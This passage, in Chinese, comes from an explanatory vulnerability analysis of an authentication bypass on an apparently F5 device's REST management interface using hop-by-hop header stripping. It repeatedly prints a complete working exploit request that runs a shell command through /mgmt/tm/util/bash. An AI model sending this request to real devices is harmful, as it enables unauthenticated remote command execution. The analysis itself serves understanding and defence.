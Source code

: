 ###### **3. Hop-by-Hop Headers 的利用**

- 攻击者构造特制请求，声明 `X-F5-Auth-Token` 为 Hop-by-Hop Header：
  ```http
  POST /mgmt/tm/util/bash HTTP/1.1
  Host: target-device
  Connection: X-F5-Auth-Token
  X-F5-Auth-Token: fake-token
  Authorization: Basic YWRtaW46
  Content-Type: application/json
  Content-Length: 43

  {"command":"run","utilCmdArgs":"id"}
  ```

- **关键点**：
  - **Apache 的行为：**  
    - 检测到 `X-F5-Auth-Token: fake-token`，认为认证已通过，将请求转发给 Jetty。
    - 在转发时，删除 `X-F5-Auth-Token` 头部（根据 Hop-by-Hop Headers 的定义）。
  - **Jetty 的行为：**  
    - 接收到的请求已删除 `X-F5-Auth-Token`，但仍包含 `Authorization` 头部。
    - 由于用户名为 `admin`，Jetty 将用户标记为管理员，绕过了权限校验。

###### **4. 执行命令**

- Jetty 将请求中的 `{"command":"run","utilCmdArgs":"id"}` 传递到后台执行命令。
- 攻击者成功获得目标设备的权限。

---

##### **示例攻击请求与处理过程**

###### **攻击请求：**
```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: target-device
Connection: X-F5-Auth-Token
X-F5-Auth-Token: fake-token
Authorization: Basic YWRtaW46
Content-Type: application/json
Content-Length: 43

{"command":"run","utilCmdArgs":"id"}
```

###### **Apache 接收并转发：**
- Apache 检测到 `X-F5-Auth-Token: fake-token`，认为请求已认证，将其转发给 Jetty。
- 转发时删除 `X-F5-Auth-Token`：
  ```http
  POST /mgmt/tm/util/bash HTTP/1.1
  Host: target-device
  Authorization: Basic YWRtaW46
  Content-Type: application/json
  Content-Length: 43

  {"command":"run","utilCmdArgs":"id"}
  ```
